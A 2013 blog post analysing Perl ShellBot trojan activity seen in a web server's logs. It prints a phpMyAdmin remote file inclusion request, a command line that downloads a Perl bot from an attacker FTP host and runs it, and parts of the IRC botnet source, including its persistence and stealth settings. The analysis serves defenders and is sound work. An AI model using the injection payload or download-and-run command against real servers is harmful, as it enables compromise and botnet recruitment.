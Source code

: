 +++
title = 'Perl Shellbot.B trojan activity'
author = ['James Espinosa']
description = 'Analysis of Perl Shellbot.B malware activity.'
date = 2013-10-10T21:00:00-08:00
draft = false
tags = ['Malware Analysis', 'Reverse Engineering']
+++

This is probably not amazing news to many of you, since you probably see a lot of automated scanning and exploitation attempts on your network perimeter. Although a bit of old news by now, I thought I'd share anyway. About a week or two prior to [ISC Diary](https://isc.sans.edu/diary.html?date=2013-10-26) posting about this active threat, I had seen activity related to this Trojan on one of the systems that I have. The following is one of the many similar entries in my `access.log`:

```
85.17.234.16 - [18/Sep/2013:02:59:55 +0000] "GET /phpmyadmin/scripts/setup.php HTTP/1.1" 404 477 "-" "ZmEu"
```

This is obviously an automated scanner, which you've probably seen or continue to see on a daily basis. I didn't think much of it, but then I came across the following url-decoded entry:

```
POST /phpMyAdmin/scripts/setup.php HTTP/1.1
Host: x.x.x.x
Content-type: application/x-www-form-urlencoded
Connection: Close
User-Agent: Opera
Content-Length: 207

action=lay_navigation&eoltype=unix&token=&configuration=a:1:{i:0;O:10:"PMA_Config":1:{s:6:"source";s:38:"ftp[:]//web[:]12345@86.109.167.136/cmd[.]txt";}}
```

This is a known remote file inclusion attempt against `phpMyAdmin`, which you can read more about [here](http://blog.spiderlabs.com/2012/04/honeypot-alert-phpmyadmin-setupphp-rfi-attacks-detected.html). I was able to get a hold of two Perl scripts and the `cmd.txt` file for my analysis. Essentially, the two Perl scripts were what appeared to be a variant of the `Perl/ShellBot.A` Trojan. It's basically an IRC-based Trojan that allows an attacker to control the compromised servers through. It has capabilities the following capabilities:

- UDP flooding
- Nmap/basic port scanning
- File transferring through DCC
- Shell access

Here's what I found in the `cmd.txt` file:

```
system("cd /tmp;wget ftp[:]//web[:]12345@86.109.167.136/f.pdf;curl -O ftp[:]//web[:]12345@86.109.167.136/f.pdf;fetch ftp[:]//web[:]12345@86.109.167.136/f.pdf;perl f.pdf;perl f.pdf; rm -rf f.pdf*;rm -f /tmp/*pdf*");
```

If the above is successfully injected (it won't right? because you update your applications right?), it will download the `f.pdf` file, which is actually a Perl script that contains the ShellBot. I received two copies, `f.pdf` and `p.pdf`, targeting `phpMyAdmin`, and `Plesk` respectively. The following is a small snippet of the Perl script. Note, the only difference is the channel that the infected hosts join (@canais = channel in Portuguese) `#pma` and `#plesk`.

```perl
#!/usr/bin/perl
# ShellBOT
# 
# Comenzi:   !all
#          - @udp <ip> <port> <timp>;
#          - @fullportscan <ip> <start port> <final port>;
#          - !quit;
#          - !join <canal> <key> e !part <canal> <reason>;
#          - !op !deop !voice !devoice <canal> <nick>;
#          - !msg !ctcp 1 2;
#          - !invite <canal> <nick>;
#          - !nick <nick>;
#          - !rnick;
#          - !raw 1;

########## CONFIGURACAO ############
my $processo = '/usr/sbin/init.d';

$servidor='ircd.myz.info' unless $servidor;
my $porta='6667';
my @canais=("#pma");
my @adms=("X");
my @hostauth=("browsing.users.undernet.org");

# Anti Flood ( 6/3 Recomendado )
my $linas_max=6;
my $sleep=3;

my $nick = getnick();
my $ircname = getident2();
my $realname = "New Generation 2013";

my $acessoshell = 1;
######## Stealth ShellBot ##########
my $prefixo = "-";
my $estatisticas = 0;
my $pacotes = 1;
####################################

my $VERSAO = '0.2a';

$SIG{'INT'} = 'IGNORE';
$SIG{'HUP'} = 'IGNORE';
$SIG{'TERM'} = 'IGNORE';
$SIG{'CHLD'} = 'IGNORE';
$SIG{'PS'} = 'IGNORE';

use IO::Socket;
use Socket;
use IO::Select;
chdir("/");
$servidor="$ARGV[0]" if $ARGV[0];
$0="$processo"."\0";
my $pid=fork;
exit if $pid;
die "mort: $!" unless defined($pid);

my %irc_servers;
my %DCC;
my $dcc_sel = new IO::Select->new();

#####################
# Stealth Shellbot  #
#####################

sub getnick {
  #my $retornonick = &_get("http://");
  #return $retornonick;
  return "pm".int(rand(1000));
}

# <-- snip -->
```

However, earlier last week, ISC Diary posted about a different variant of the ShellBot.B Trojan. According to them, it appears that it is targeting older Plesk vulnerabilities. You can read more about the details on their blog post [here](https://isc.sans.edu/diary.html?date=2013-10-26). Fortunately, I was able to snag a copy of that Perl script before the hosting server went offline. Much of it appears to be very similar to the previous versions that I talked about above. However, there are notable differences. Here's a sample snippet of that script:

```perl
#!/usr/bin/perl
my @mast3rs = ("pizza");

my @hostauth = ("sosick.net");
my @admchan=("#X");

my @server = ("89.248.172.144");
$servidor= $server[rand scalar @server] unless $servidor;

my $xeqt = "''";
my $homedir = "/tmp";
my $shellaccess = 1;
my $xstats = 1;
my $pacotes = 1;
my $linas_max = 5;
my $sleep = 6;
my $portime = 4;

my @fakeps = ("-bin");

my @nickname = ("LINUX");

my @xident = ("KAST");
my @xname = (`uname -a`);

#################
# Random Ports
#################
my @rports = ("6667");

my @Mrx = ("\001mIRC32 v5.91 K.Mardam-Bey\001","\001mIRC v6.2 Khaled Mardam-Bey\001",
   "\001mIRC v6.03 Khaled Mardam-Bey\001","\001mIRC v6.14 Khaled Mardam-Bey\001",
   "\001mIRC v6.15 Khaled Mardam-Bey\001","\001mIRC v6.16 Khaled Mardam-Bey\001",
   "\001mIRC v6.17 Khaled Mardam-Bey\001","\001mIRC v6.21 Khaled Mardam-Bey\001",
   "\001Snak for Macintosh 4.9.8 English\001",
   "\001DvC v0.1 PHP-5.1.1 based on Net_SmartIRC\001",
   "\001PIRCH98:WIN 95/98/WIN NT:1.0 (build 1.0.1.1190)\001",
   "\001xchat 2.6.2 Linux 2.6.18.5 [i686/2.67GHz]\001",
   "\001xchat:2.4.3:Linux 2.6.17-1.2142_FC4 [i686/2,00GHz]\001",
   "\001xchat:2.4.3:Linux 2.6.17-1.2142_FC4 [i686/1.70GHz]\001",
   "\001XChat-GNOME IRC Chat 0.16 Linux 2.6.20-8-generic [i686]\001",
   "\001ircN 7.27 + 7.0 - -\001","\001..(argon/1g) :bitchx-1.0c17\001",
   "\001ircN 8.00 ^_-^_ he tries to tell me what I put inside of me ^_-^_\001",
   "\001FreeBSD!4.11-STABLE bitchx-1.0c18 - prevail[0123] :down with people\001",
   "\001BitchX-1.0c19+ by panasync - Linux 2.4.31 : Keep it to yourself!\001",
   "\001BitchX-1.0c19+ by panasync - Linux 2.4.33.3 : Keep it to yourself!\001",
   "\001BitchX-1.1-final+ by panasync - Linux 2.6.18.1 : Keep it to yourself!\001",
   "\001BitchX-1.0c19 by panasync - freebsd 4.10-STABLE : Keep it to yourself!\001",
   "\001BitchX-1.1-final+ by panasync - FreeBSD 4.5-STABLE : Keep it to yourself!\001",
   "\001BitchX-1.1-final+ by panasync - FreeBSD 6.0-RELEASE : Keep it to yourself!\001",
   "\001BitchX-1.1-final+ by panasync - FreeBSD 5.3-RELEASE : Keep it to yourself!\001",
   "\001bitchx-1.0c18 :tunnelvision/1.2\001","\001PnP 4.22 - http://www.pairc.com/\001",
   "\001BitchX-1.0c17/FreeBSD 4.10-RELEASE:(c)rackrock/bX [3.0.1<C2>?9] : Keep it to yourself!\001",
   "\001P&P 4.22.2 (in development) + X Z P Bots, Sound, NickServ, ChanServ, Extras\001",
   "\001HydraIRC v0.3.148 (18/Jan/2005) by Dominic Clifton aka Hydra - #HydraIRC on EFNet\001",
   "\001irssi v0.8.10 - running on Linux i586\001","\001irssi v0.8.10 - running on FreeBSD i386\001",
   "\001ircII 20050423+ScrollZ 1.9.5 (19.12.2004)+Cdcc v1.6mods v1.0 by acidflash - Almost there\001",
   "\001ircII 20050423+ScrollZ 1.9.5 (19.12.2004)+Cdcc v1.8+OperMods v1.0 by acidflash - Almost there\001");

# Default quick scan ports
my @portas=("21","22","23","25","53","80","110","113","143","3306","4000","5900","6667","6668","6669","7000","10000","12345","31337","65501");

# xeQt

#my $nick = "Power";
my $nick = $nickname[rand scalar @nickname];
my $realname = $xname[rand scalar @xname];
my $ircname = $xident[rand scalar @xident];
my $porta = $rports[rand scalar @rports];
my $xproc = $fakeps[rand scalar @fakeps];
my $Mrx = $Mrx[rand scalar @Mrx];
my $version = 'PowerBots (C) GohacK';

$SIG{'INT'} = 'IGNORE';
$SIG{'HUP'} = 'IGNORE';
$SIG{'TERM'} = 'IGNORE';
$SIG{'CHLD'} = 'IGNORE';
$SIG{'PS'} = 'IGNORE';

# <-- snip -->
```

Obviously, the biggest takeaway from all of this is that you need to make sure that you're keeping your applications and servers patched. You will always get bombarded with scans and exploit attempts by automated scanners and malware. That's all I have, just thought I'd share! Stay safe out there.
